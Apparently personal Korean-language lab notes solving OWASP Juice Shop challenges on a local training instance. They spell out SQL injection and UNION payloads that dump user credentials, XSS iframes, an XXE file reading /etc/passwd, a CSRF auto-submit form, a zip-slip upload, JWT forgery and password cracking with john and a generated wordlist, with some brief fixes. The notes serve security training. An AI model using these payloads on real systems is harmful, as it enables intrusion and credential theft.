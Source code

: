 
임시 풀이

Score Board
주소창에 http://localhost:3000/#/score-board 입력
	code
	path에 암호화된 값을 입력하여 받을 때는 디코딩된 값을 입력받도록 함.

Privacy Policy
계정 -> 개인정보 및 보안 -> 개인정보 정책

Missing Encoding
이미지가 나오질 않음. 주소 확인
`# 을 %23으로 URL encoding 한 뒤 확인

Repetitive Resgistration
처음 계정 생성할 때
burp suite로 intercept하여
비밀번호 재입력 부분 수정하여 로그인

Bully Chatbot
쿠폰 번호 줄 때까지 달라고 말걸기

Forged Review
홈에서 리뷰를 작성한 후 burp suite로 intercept 해서 user를 다른 이름으로 바꾸기

Zero Stars
Customer Feedback에서 작성하고 burp suite로 intercept한 뒤 Rating 부분에 0을 입력
혹은 관리자모드에서 disabled 내용 다 지운 다음 submit 버튼 누를 수 있게 되면 CAPTCHA를 입력하고 submit

Error Handling
url을 조작해서 에러 메시지 발생시키기

Exposed credentials
개발자도구(f12)를 통해 main.js에서 Username과 Password를 찾아서 로그인

Empty User Registration
회원가입 창에서 입력하고 burp suite를 킨 뒤 Email, Password, Repeat Password 부분 공백으로 만들기

Admin Registration
계정을 생성했을 때 burp suite로 확인하면 role: customer로 되어 있음을 알 수 있음.
그러므로 계정을 만들 때 burp suite로 intercept하여 role: admin을 추가하면 admin 계정 생성

Mass Dispel
초록색 성공 창이 뜨면 shift를 누른 채로 x를 누르면 모두 삭제됨.

Payback Time
basket에 상품을 넣고 burp suite를 통해 quantity의 양을 -로 수정하여 결제를 할 때 - 값으로 결제되게 함.

Deluxe Fraud
Payback Time 을 통해 돈을 만들고 Deluxe Membership 가입. Pay 누를 때 burp suite로 intercept하여 paymentMode의 내용을 공백으로 바꿈

Deprecated Interface
B2B interface 라는 단어를 통해 xml파일 업로드 관련이라는 것을 유추. main.js에서 xml 파일이 업로드 가능함을 파악. kali에서 xml파일을 생성 후 업로드

Login Admin
email : ' or 1=1 -- 로 로그인
	code
	아이디와 패스워드는 바인드 처리

Admin Section
Admin으로 로그인한 뒤 `#/administration 으로 접속
	code
	주석처리해서 외부에 노출 없이 내부적으로 관리

Five-Star Feedback
Admin으로 로그인한 뒤 `#/administration 으로 들어가서 Customer Feedback의 별 5개 리뷰 삭제

CAPTCHA Bypass
Customer Feedback 에 들어가서 Comment 입력하고 Submit을 누른 후 burp suite를 intercept해서 잡은 후 repeater로 10번 이상 send 보내기

Forged Feedback
Customer Feedback을 submit할 때 burp suite를 intercept해서 잡은 후 UserId: 2로 수정

Meta Geo Stalking
Forgot Password 들어가서 Email : john@juice-sh.op 입력
What's your favorite place to go hiking? 질문
Photo Wall 에서 hiking 이미지 발견
hiking 이미지 다운 받은뒤
exiftool /home/kali/Downloads/favorite-hiking-place.png 로 사진 정보 찾기
GPS 정보로 구글 맵에서 좌표를 검색한 뒤 근처에 hiking 할만한 장소 찾기

Security Policy
securitytxt.org 에서 보면 .well-known/security.txt 이 있음을 알 수 있음
http://192.168.5.25:3000/.well-known/security.txt

Confidential Document
About Us 에서 링크가 있는데 들어가서 주소창을 보면 3000/ftp/~.md 인것을 알 수 있음.
192.168.5.25:3000/ftp 로 들어가면 파일 목록을 볼 수 있고 acquisitions.md 를 누르면 클리어
	code
	중요한 데이터가 있는 폴더는 아예 코드에서 삭제해서 위험요소를 없앰.

Outdated Allowlist
개발자 도구에서 Sources를 보면 main.js에서 redirect를 검색. bitcoin을 찾으면 redirect?to=https://blockchain.info/address/~ 확인
:3000/redirect?to=~ 주소창에 입력하면 완료

DOM XSS
메인 페이지에 검색창에서 `<iframe src="javascript:alert(`xss`)"> 를 입력하고 검색
	code
	텍스트 검색을 위한 사용자 입력에는 일반 텍스트만 포함되어야함

Bonus Payload
메인 페이지 검색창에서 `<iframe width="100%" ~></iframe> 를 입력하고 검색
	code
	텍스트 검색을 위한 사용자 입력에는 일반 텍스트만 포함되어야함

Exposed Metrics
힌트 사이트에서 prometheus.io 링크를 들어가면 /metrics 경로에 있다고 해서 :3000/metrics 로 접속하면 어떤 코드가 나오면서 클리어
	code
	권한 있는 user만 접근을 하도록 허용

Login MC SafeSearch
administration 에서 MC Safesearch 의 이메일 주소를 발견. mc.safesearch@juice-sh.op
힌트 속 영상을 보면 Mr. N00dles 를 패스워드로 한다는 것을 알 수 있음.
얻은 정보로 로그인

Web3 Sandbox(Broken Access Control)
main.js에서 sandbox검색해보니 Path: web3-sandbox 라고 되어있음.
/#/web3-sandbox 접속
	code
	개발자를 위한 sandbox는 애플리케이션에 포함될 필요가 없으므로 삭제

View Basket
Your Basket을 들어갈 때 burp suite로 잡으면 GET /rest/basket/6 이 나오는데 6을 다른 숫자로 바꾸면 클리어

Visual Geo Stalking
패스워드 찾기 들어가서 emma@juice-sh.op 을 이메일에 입력하면 first work 을 찾아야 하는데 photo wall을 보라는 말이 있었으므로
emma와 비슷한 E=ma2의 이미지를 보면 건물이 보이는데 이를 확대해서 보면 ITsec을 찾을 수 있음.

Password Strength
admin@juice-sh.op로 로그인할 때 burpsuite로 잡아서 password 부분을 Intruder로 하나씩 대입시켜서 비밀번호 찾기
admin123이 password임을 발견
	code
	password 조건에 최소 8자 이상, 일반 사전에 포함되어 있지 않은 단어를 사용하도록 함.

Weird Crypto
password찾기를 할 때 조건에 맞게 입력하고 password변경을 하고 burp suite로 response를 확인하면 해시된 상태로 저장됨을 알 수 있음. 그래서 hash 정보를 찾아보면 md5인 것을 알 수 있고 링크된 문의하기 페이지에서 md5라고 쓰고 보내면 클리어

NFT Takeover
main.js에서 juicy-nft라는 주소가 있음을 발견
about us에서 nfp 버튼을 누르면 ETH 코인을 사용하고 있음을 알 수 있음, nft seed에 대한 정보도 알 수 있음.
private key 를 얻기 위해 mnemonic code를 사용
얻은 key값으로 :3000/juicy-nft 에서 key 입력하는 칸이 입력

Blocked RCE DoS
gobuster dir -u http://192.168.56.102:3000 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt --exclude-length 80117

CSRF
http://192.168.56.102:3000 에서 아무 계정이나 로그인
https://htmledit.squarefree.com/ 로 접속
`<form action="http://172.16.0.10:3000/profile" method="POST">` 
	`<input name="username" value="CSRF"/>`
	`<input type="submit"/>`
`</form>`
`<script>document.forms[0].submit();</script>`
입력하면서 burp suite로 잡기
Repeater로 보낸 뒤 로그인 계정의 Request에서 Cookie 값을 추가하고 Send
http://192.168.56.102:3000/profile 에서 username 바뀐지 확인

Forged Review
메인 페이지에서 상품을 클릭한 뒤 review 를 작성하고 submit할 때 burp suite로 잡아서 author 부분은 admin@juice-sh.op로 바꿔서 보내기

Manipulate Basket
Your Basket으로 들어갈 때 burp suite으로 intercept 하여 POST /api/BasketItems/ 로 수정하고
{
"ProductId":1,
"quantity":4,
"BasketId":6,
"BasketId":5
 }
 와 같이 원래 유저의 BasketId와 다른 BasketId를 같이 입력하면 됨.

Product Tempering
[OWASP SSL Advanced Forensic Tool (O-Saft)](http://192.168.56.102:3000/#/search?q=OWASP%20SSL%20Advanced%20Forensic%20Tool%20\(O-Saft\)) 링크 클릭하여 접속
Add to Basket을 한 뒤 burp suite 로 확인하면 ProductId 가 9임을 알 수 있음.
상품을 클릭하여 review를 작성하고 submit을 누를 때 burp suite로 잡으면
PUT 으로 method가 되는데 이 때 
PUT /api/Products/9 
`{"description": "<a href=\"https://owasp.slack.com\" target=\"_blank\">More...</a>"} 를 입력하면 클리어
새로고침한 뒤 다시 상품을 누르면 설명이 More...이라고 되어 있음

Reflected XSS
Account -> Orders&Payment -> Order History -> Track Order 를 들어가면 URL 주소의 track-result?id= 뒤에 있는 값이 화면에 그대로 나옴
여기에 `<iframe>~ 값을 대입

Exposed Credential
개발자모드 -> network -> main.js 에서 username 을 검색하면 
testingUsername = "testing@juice-sh.op";
testingPassword = "IamUsedForTesting";
이 나옴
이 유저로 로그인하면 클리어

XXE Data Access
Complain에서 upload할 때 xml 파일이 업로드된다는 사실을 이용해서
vi test.xml
	`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>`
로 파일을 생성한 뒤 업로드
-> /etc/shadow도 발견할 수 있음;
-> john --wordlist=/usr/share/wordlists/rockyou.txt juice_hast.txt

Arbitrary File Write
cd /home/kali/Downloads
mkdir ../../ftp
touch ../../ftp/legal.md
chmod 777 ../../ftp/legal.md;echo "hack" > ../../ftp/legal.md
cat ../../ftp/legal.md 으로 제대로 들어갔는지 확인
zip exploit.zip ../../ftp/legal.md
아무 계정으로 complain으로 들어간 뒤 zip파일 업로드하면 성공
취약점 코드
              .on('entry', function (entry: any) {
                const fileName = entry.path
                const absolutePath = path.resolve('uploads/complaints/' + fileName) 
	                -> 파일명을 그대로 이어받아서 uploads/complaints/../../ftp/legal.md가 가능
                challengeUtils.solveIf(challenges.fileWriteChallenge, () => { return absolutePath === path.resolve('ftp/legal.md') })
                if (absolutePath.includes(path.resolve('.'))) {  
	                -> /juice-shop/ftp/legal.md 로 되어 있어도 includes로 인해 /juice-shop == true 가 되어버림
                  entry.pipe(fs.createWriteStream('uploads/complaints/' + fileName).on('error', function (err) { next(err) }))
                } else {
                  entry.autodrain()
                }
              }).
해결방법
- **경로 정규화(Normalization)**: `path.normalize()`를 사용
	- const finalpath = path.normalize(absolutePath); 추가
- **기준 디렉토리 확인**: 정규화된 경로가 의도한 디렉토리(`uploads/complaints/`) 내에 있는지 확인
	- const basedir = path.resolve('uploads/complaints/'); 추가
	- if (!finalpath.startsWith(basedir + path.sep)) {
		  entry.autodrain(); // 파일 무시
		  return;
		} 로 수정

Forgotten Developer Backup
/ftp 에 접속
package.json.bak 발견
403_ Error: Only .md and .pdf files are allowed!
Poison Null Byte를 이용하여 %2500.md를 입력하면 파일이 다운로드되면서 클리어
%2500 -> %00 -> \x00 -> 문자열 종료가 되기 때문에 서버에서 문자열을 처리할 때는 .bak까지만 읽는데 확장자 검사는 글자 그대로를 검사하기 때문에 .md까지 함

Forgotten Sales Backup
/ftp 에 접속
coupons_2013.bak 발견
403_ Error: Only .md and .pdf files are allowed!
Poison Null Byte를 이용하여 %2500.md를 입력하면 파일이 다운로드되면서 클리어

Forged Coupon
package.json.bak : z85(base85 인코딩 방법 중 하나)
coupons_2013.bak : gC7ss(n) 패턴
coupon파일에서 12개 코드 중에 `o*I]pgC7sn를 z85 decode를 사용하면 MAY13-10 이라고 나옴
이를 MAY25-90으로 다시 encode하고 basket에서 결재할 때 coupon에 입력하고 결재

SSRF
로그인 후 profile로 이동
Image URL 에 https://placecats.com/100/100 와 같은 주소 넣어보기
burp suite 로 확인하면 POST /profile/image/url과 imageUrl=https%3A%2F%2Fplacecats.com%2F100%2F100 를 확인
http://172.16.0.10:3000/ftp/quarantine 에서 확인하면 malware 파일이 존재
다운받아서 cat 으로 확인하면 https://github.com/juice-shop/juicy-malware/raw/master/juicy_malware_linux_amd_64 주소가 나옴
해당 사이트에 접속해서 파일 다운
strings juicy_malware_linux_amd_64 | grep localhost
	http://localhost:3000/solve/challenges/server-side?key=tRy_H4rd3r_n0thIng_iS_Imp0ssibl3
얻은 URL을 profile에 업로드하면 클리어

Forged Signed JWT
새로고침하고 burp suite로 intercept
Header의 Authorization: Bearer 다음 부분을 복사해서 jwt.io에 붙여넣기.
alg : HS256으로 변경
email : rsa_lord@juice-sh.op 으로 변경
HMAC-SHA256 Hash Generator 사이트 접속
JWT의 Header와 Payload 부분 복사해서 Enter Plain Text to Compute Hash 에 붙여넣기
http://172.16.0.10:3000/encryptionkeys 에서 jwt.pub 다운
cat /home/kali/jwt.pub 를 통해 알게 된 공개키값 전부 복사 후 Enter the Secret Key 에 붙여넣기
Select Cryptographic Hash Function : SHA256, Output Text Format : Base64로 설정 후 compute
나온 값을 header.payload.signature 이러한 형식으로 붙여넣고 전체 합친 것을 URL이 /rest/user/whoami 인 경우에 Authorization에 붙여넣기
그리고 인터셉트 해제

Login Support Team
http://172.16.0.10:3000/ftp 에서 incident-support.kdbx 파일 다운
keepass2john incident-support.kdbx >> keepasshash.txt
http://172.16.0.10:3000 에서 f12(개발자모드)에서 support를 검색하면 
`(?=.*[a-z])(?=.*[A-Z])(?=.*\d)(?=.*[@$!%*?&])[A-Za-z\d@$!%*?&]{12,30} 가 있음.

길이: 12~30자
소문자 1개 이상
대문자 1개 이상
숫자 1개 이상
특수문자(@$!%*?&) 1개 이상

의 비밀번호 조건을 뜻함.

vi generate_wordlists.py
	words = ['Support', 'Admin', 'Welcome', 'Team', 'Help', 'Service', 'Password', 'Summer', 'Winter']
	years = ['2022', '2023', '2024']
	specials = ['!', '@', '$', '%', '*', '?', '&']
	
	wordlist = set()
	
	for word in words:
	    for year in years:
	        for spec in specials:
	            # 가능한 조합들을 만들어본다
	            pw1 = f"{word}{year}{spec}"
	            pw2 = f"{word}{spec}{year}"
	            pw3 = f"{spec}{word}{year}"
	            pw4 = f"{spec}{year}{word}"
	
	            for pw in [pw1, pw2, pw3, pw4]:
	                if 12 <= len(pw) <= 30:
	                    wordlist.add(pw)
	
	with open("custom_wordlist.txt", "w") as f:
	    for pw in sorted(wordlist):
	        f.write(pw + "\n")
	
	print(f"[+] total : {len(wordlist)}")
	print("[+] custom_wordlist.txt")

로 단어 리스트 생성
john --wordlist=custom_wordlist.txt keepasshash.txt
	Support2022!     (incident-support)
KeePass 2.X 버전 설치
KeePass로 incident-support.kdbx 파일 열고 비밀번호로 Support2022! 입력
prod -> support@juice-sh.op 의 password 발견
support@juice-sh.op 로 로그인

Christmas Special
/search 검색창에 burp suite의 repeater를 통해  /rest/products/search?q='; 를 입력하면
SELECT * FROM Products WHERE ((name LIKE '%';%' OR description LIKE '%';%') AND deletedAt IS NULL) ORDER BY name 와 같은 오류가 발생. q= 값이 LIKE '%?%'에서 ?에 입력되는 것을 알 수 있음 
전체 목록을 보기 위해
test')) union select * from Products where deletedAt is not null -- 를 입력
test'))%20union%20select%20%2A%20from%20Products%20where%20deletedAt%20is%20not%20null--%20
Christmas Super-Surprise-Box (2014 Edition)
"id":10
basket에 담을 때 burp suite로 잡아서 "ProductId":10 추가
결재까지 하면 클리어

User Credentials
/search 검색창에 burp suite의 repeater를 통해  /rest/products/search?q='; 를 입력하면
SELECT * FROM Products WHERE ((name LIKE '%';%' OR description LIKE '%';%') AND deletedAt IS NULL) ORDER BY name 와 같은 오류가 발생. q= 값이 LIKE '%?%'에서 ?에 입력되는 것을 알 수 있음 
')) union select * from Users -- 를 url encode 해서 다시 입력하면
SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns 라고 오류가 발생.
column의 개수를 맞추기 위해 개수를 하나씩 늘리면서
 union select '1','2','3','4','5','6','7','8','9' from Users -- 를 입력하면 값들이 나옴
 union select id,email,password,'4','5','6','7','8','9' from Users -- 로 입력하면 email 과 password 값도 나옴
 -> crackstaion에서 password 부분 crack하면 admin123나옴
